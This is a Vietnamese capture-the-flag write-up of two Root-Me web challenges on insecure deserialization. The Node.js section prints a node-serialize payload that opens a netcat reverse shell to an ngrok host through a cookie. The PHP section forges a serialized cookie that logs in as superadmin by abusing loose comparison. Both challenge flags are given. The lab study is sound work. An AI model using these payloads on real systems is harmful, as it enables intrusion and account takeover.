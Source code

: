 # Node - Serialize

- Link Challenge: http://challenge01.root-me.org:59067/

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/a5eeb11d-8eec-4439-ab55-307ac0cd3227)

- Vừa vào thì mình nhận được một trang login.
- Dùng Burp Suite kiểm tra resquest thì mình nhận thấy rằng server sẽ response về cho mình một Cookies có giá trị là ``profile`` và redirect mình về lại ``\``

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/a230517e-3f6f-4e1c-bf06-474d4fcfdda4)

- Tiếp tục xem resquest tiếp theo thì lúc này server đã tự gửi một GET resqeust với Cookies là giá trị đã set cho mình lúc nãy.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/17f08edd-18ae-4733-999b-2b65502298f7)

- Có vẻ như cookies đã bị serialize và theo tên bài thì trang web này được code bằng Node.

 ![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/b8e02089-55fb-4727-9737-0428dc56be83)

- Sau một hồi research mình tìm được một bài viết khá hay về [Node.js Deserialization Attack ](https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/)
- Dựa theo blog, bây giờ mình tiến hành dựng một port tcp bằng ngrok.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/2355dfa4-00a1-46cb-a12f-02e492186dac)

- Đoạn code generartor payload sẽ có dạng như sau:

```  nodejs
let y = {
    rce: function () {
        require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 12502 >/tmp/f', function (error, stdout, stderr) { console.log(stdout); });
    },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/5e173b84-8940-4cd3-b080-b68ab9bf0a07)

- Bây giờ mình sẽ tiến hành chèn thêm đoạn payload này vào cookies để có thể reverse shell

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/d675eb43-7110-4f38-85f2-8fbe2458cc8c)

- Sau khi có shell, mình chỉ cần lấy flag.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/938e0984-1651-457e-ba0c-566d64a454d8)

- Flag: ```Y3pS3r0d3c0mp4nY1sB4d!```
# PHP - Serialization
- Link challenge: http://challenge01.root-me.org/web-serveur/ch28/

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/c708670a-88dc-4b09-91e5-eff5b61b64f8)

- Chúng ta có được một form login và một source code.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/f763dd21-a3e8-4042-9782-65c3a6d3e64a)

- Để ý src, thì mình phát hiện được 1 điều kiện khi login đó là autologin bằng cookies.
- Khi người dùng tick vào ô autologin lúc gửi Request, thì server sẽ tự serialize data và gán nó vào trong cookies.
- Điểm đáng chú ý của hàm này đó là mỗi khi server unserialize cookies thì không có bước verify xem cookies có bị thay đổi hay không.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/c388f88b-b3b6-48ae-b220-eaf4f449ab4a)

- Và điều kiện để chúng ta có được flag là login vào được với quyền của superadmin.
- Ý tưởng của mình là chỉ cần login vào với tài khoản ```guest\guest``` để có được cookie của autologin và chỉnh sửa nó để bypass bước xác thực của server.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/d32a4ee6-6704-4fad-afe1-c1d2c5236c61)

- Cookies chứa giá trị của autologin có dạng như sau.

```a:2:{s:5:"login";s:5:"guest";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}```

- Việc của mình bây giờ chỉ cần thay đổi nó thành ```superadmin``` và password là ```b:1``` ( bởi gì server kiểm tra password toán tử == ).

```a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}```

- Khi login bằng cookies của superadmin thì chúng ta đã có flag.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/af93d14a-f267-4fb7-99e3-b1665fbdc58d)

- Flag: ```NoUserInputInPHPSerialization!```
